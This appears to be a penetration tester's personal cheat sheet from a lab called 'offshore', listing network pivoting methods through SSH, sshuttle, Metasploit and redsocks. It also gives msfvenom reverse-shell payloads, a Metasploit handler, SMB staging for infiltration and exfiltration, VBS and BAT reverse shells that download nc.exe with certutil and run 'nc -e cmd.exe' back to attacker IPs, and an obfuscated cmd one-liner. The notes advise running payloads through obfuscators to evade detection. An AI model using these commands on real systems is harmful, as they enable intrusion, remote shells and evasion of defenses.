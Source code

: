 # These are just tricks I picked up in offshore, will get exploded into different dirs at some point.

#### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 1080`  
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01`  
`proxychains nmap -sV 172.16.1.0-254`  

### Method 2:
*if I could nmap through this tunnel it would be the preffered method  

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`  

### Method 3:  
msf > use auxiliary/scanner/ssh/ssh_login_pubkey  
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123    
msf auxiliary(ssh_login_pubkey) > set USERNAME root  
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh  
msf auxiliary(ssh_login_pubkey) > run  
ctrl+z
sessions -u 2
background
use auxiliary/server/socks_proxy
run


meterpreter > run post/multi/manage/autoroute  
CTRL+Z  
use auxiliary/scanner/portscan/tcp   
set RHOSTS 172.16.1.0/24  

### Method 4:  

`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*  
`echo 1 > /proc/sys/net/ipv4/ip_forward`  
`iptables -t nat -A OUTPUT -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`iptables -t nat -A PREROUTING -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`/usr/sbin/redsocks -c /etc/redsocks.conf `

# Get a proper shell from a half/broken shell
`msfvenom -p cmd/unix/reverse_python lhost=69.201.13.55 lport=3344 R`
paste in your shell, profit
`python -c 'import pty; pty.spawn("/bin/sh")'`

## Start mult/handler:
`sudo msfconsole -x "use exploits/multi/handler; set lhost 10.10.14.14; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"`
`msfvenom -p windows/x64/meterpreter_reverse_http -f psh LHOST=10.10.14.14 LPORT=443 -o l.ps1`

## Start SMB for infil/exfil:  
`$ sudo impacket-smbserver -smb2support GUEST /home/kymb0/Desktop/backup/offshore/toolz`

## Reverse shell vbs (remember to run PS shellcode through https://github.com/danielbohannon/Invoke-obfuscation)
`Set objShell = CreateObject("Wscript.Shell")
objShell.Run("powershell.exe -noexit \\10.10.14.14\GUEST\l.ps1")`

## Reverse shell bat (remember to run through https://github.com/danielbohannon/Invoke-DOSfuscation)
cmd.exe /c
certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe 
C:\ManageEngine_new\OpManager\logs\nc.exe
C:\ManageEngine_new\OpManager\logs\nc.exe -nv 10.10.14.14 443 -e cmd.exe

EG:  
```
cmd /V:ON/C"set Eiz8=d3uc 0v-olCeh\xt.saip1mEO:fn4gMwr/_&&for %n in (3,22,0,16,11,14,11,4,33,3,4,3,11,32,15,2,15,19,9,16,11,14,11,4,7,2,32,9,3,18,3,12,11,4,7,17,20,9,19,15,4,7,26,4,12,15,15,20,25,33,33,21,5,16,21,5,16,21,28,16,21,28,33,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,7,27,6,4,21,5,16,21,5,16,21,28,16,21,28,4,28,28,1,4,7,11,4,3,22,0,16,11,14,11,39)do set xoi=!xoi!!Eiz8:~%n,1!&&if %n gtr 38 call %xoi:~5%"
```
